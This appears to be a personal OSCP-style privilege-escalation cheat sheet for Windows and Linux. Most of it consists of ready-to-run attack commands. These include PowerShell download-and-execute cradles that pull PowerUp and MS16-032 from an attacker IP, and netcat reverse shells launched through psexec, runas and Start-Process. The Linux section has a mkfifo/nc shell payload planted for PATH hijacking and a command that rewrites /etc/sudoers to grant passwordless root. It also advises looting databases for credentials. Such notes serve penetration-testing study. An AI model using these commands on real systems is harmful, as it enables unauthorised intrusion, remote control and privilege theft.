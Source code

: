 # General
- Always try dump and default passwords for users on the system
- Always search source code for DB credentials ands loot the hell out of the db, looking for creds.
- Always enumerate users and try and known password for that user

Good overview for resources

https://xapax.gitbooks.io/security/

Basically just a dump of unstructured OSCP knowledge with some helpful items

https://github.com/doffensive/wired-courtyard

# Windows
## Tips and Hints
- .JOB files are scheduled jobs which are not registered with the schtasks.

## Main Enumeration Scripts
```batch
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.139/PowerUp.ps1'); Invoke-AllChecks"

Rem need to transfer both accesschk.exe and powerless.bat to the machine.
accesschk.exe
powerless.bat
```

## Powershell
Running Local Commands
```powershell
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"

powershell -ExecutionPolicy ByPass -command "& { . Z:\PowerUp.ps1; Invoke-AllChecks }"
```
Running commands from a remote host
```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.139/PowerUp.ps1'); Invoke-AllChecks"

powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.139/Invoke-MS16-032.ps1'); Invoke-MS16-032"
```

## File Transfer

SMB
```batch
net use * \\10.11.0.56\draedis /User:root <PASSWORD>
```

FTP - Run script and copy and paste output to terminal window
```bash
$SCRIPTS/ftp_pull.sh <filename to download>
#ftp_push will push files from windows to kali
```

Powershell - Run script and copy and paste to terminal window
```bash
$SCRIPTS/powershell_dl.sh <file to download>
```

VBScript - Run script and copy and paste to terminal window, then run download on terminal window
```bash
# Kali
$SCRIPTS/win_wget_vb.sh
```
```batch
REM Windows
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

PsExec for On Remote Machine
```batch
 C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
```

Powershell window to Run as a different user
```powershell
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

Runas (e.g. su) for Windows with other creds. CAN'T PASS PASSWORD THO!
```batch
 C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
 Attempting to start nc.exe as user "COMPUTERNAME\Test" ...
 ```

Compile python exploits to .exe for windows
```bash
 pip install pyinstaller
 wget -O exploit.py http://www.exploit-db.com/download/31853  
 python pyinstaller.py --onefile exploit.py
 ```

## Pre-Compiled Exploits
https://github.com/SecWiki/windows-kernel-exploits

## Cheat Sheets
Mother Script

http://www.fuzzysecurity.com/tutorials/16.html

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

Quick Items to Check

https://github.com/ibr2/pwk-cheatsheet#windows-privilege-escalation

OSCP based Guides

https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_windows.html

https://github.com/xapax/security/blob/master/privilege_escalation_windows.md

###
# Linux
## Tips and Hints
### Main Enumeration Scripts
```bash
export A=http://<IP>
export H=http://<IP>:8000
cd /tmp
wget $A/LinEnum.sh
bash LinEnum.sh

...

linux-exploit-suggester.sh
linux-exploit-suggester2.pl
linuxprivchecker.py
```

Upgrade shells
```python
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=linux
```
https://netsec.ws/?p=337

Check all files for ones that may be interesting (like authorized_keys)

Check SUID programs for ones that do not belong

Check sudo permissions

If run as root, get sudo permissions as low priv user
```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

Find an app that is run as root and managle the path (setuid program for example). Think periodic script which runs (cron) or is already running
 ```bash
 set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
 chmod +x ssh
 ```

Always use google site:exploit-db.com <kernel_ver> to search for vulnerabilities, since not all are reported in the scripts. All vulns *should* be in searchsploit.
- `linux-exploit-suggester.sh` == most recent, but offline
- `linuxprivchecker.py` == good, but old exploits 
```bash
searchsploit "Linux Kernel"  
searchsploit linux 2.6 | grep -i ubuntu | grep local 
```

Compiling binaries on Kali for old distros
```
gcc 3.c -o 3 -static -Wl,--hash-style=sysv -m32
```
Only need static if there is a CRuntime Libc2.7 error

## Pre-Compiles Exploits
https://github.com/SecWiki/linux-kernel-exploits

## Cheat Sheets
Mother Script

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Some Quick Things to check

https://github.com/ibr2/pwk-cheatsheet#linux-privilege-escalation


Full, OSCP tailored a little

https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_-_linux.html






